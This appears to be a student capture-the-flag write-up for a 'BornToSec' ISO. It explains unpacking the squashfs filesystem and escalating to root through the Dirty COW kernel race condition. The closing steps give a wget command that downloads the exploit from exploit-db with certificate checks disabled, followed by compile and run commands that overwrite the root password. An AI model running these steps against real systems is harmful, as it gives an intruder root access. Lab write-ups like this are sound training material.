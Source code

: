 ## Unsquash

* To understand the file structure of the system that we need to Hack, we are going to open given BornToSec ISO file.<br/><br/>
![files_iso](screens/files_iso.png)<br/>
![sqaushed_file](screens/sqaushed_file.png)<br/>
* In casper folder we can see filesystem.squashfs which tells us that system is compessed. It also means that we can decompress system using linux `unsquashfs` function.<br/>
You should have access as a laurie via ssh and use /tmp folder to unsqash the system file in /cdrom/casper/filesystem.squashfs<br/>
![unsquash](screens/unsquash.jpg)<br/>

-----------------------------------------------------------------------------------------


## Privilege escalation

* We can access as a lower level user and try to user exisiting explits that will provide us with root access possbily. Exploits are possible for some versions of our system<br/>
![squash_kernel_version](screens/squash_kernel_version.jpg)
* As we know we can execute scripts from tmp folder, only need to upload them there

* There are an [existing script](https://github.com/sneakymonk3y/linux-exploit-suggester/blob/master/linux-exploit-suggester.sh) that we are going to use which named [dirtycow2](https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails), it fits perfectly our system version


* A race condition was found in the way the Linux kernel's memory subsystem handled the copy-on-write (COW) breakage of private read-only memory mappings. All the information we have so far is included in this page.
The bug has existed since around 2.6.22 (released in 2007) and was fixed on Oct 18, 2016.
* An unprivileged local user could use this flaw to gain write access to otherwise read-only memory mappings and thus increase their privileges on the system.
* This flaw allows an attacker with a local system account to modify on-disk binaries, bypassing the standard permission mechanisms that would prevent modification without an appropriate permission set.


* getting script `wget --no-check-certificate https://www.exploit-db.com/download/40839 -O dirty.c`

* Giving 755 permissions to the dirty.c file and to compile with `gcc -pthread dirty.c -o dirty -lcrypt`
![exploit](screens/exploit.jpg)
* Then execute it and provide a new password for the root user, then just su root.

* Done!
